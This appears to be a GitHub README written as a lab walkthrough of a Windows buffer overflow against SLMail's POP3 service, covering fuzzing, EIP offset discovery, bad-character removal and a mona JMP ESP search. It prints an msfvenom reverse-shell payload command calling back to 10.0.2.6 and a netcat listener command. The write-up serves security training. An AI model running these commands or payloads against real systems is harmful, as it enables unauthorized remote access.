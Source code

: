# Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.


- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.


- Updated “fuzzy.py” with the target IP address and port, then saved changes.


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.


- Observed the EIP update to “41414141” in Immunity debugger.


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.
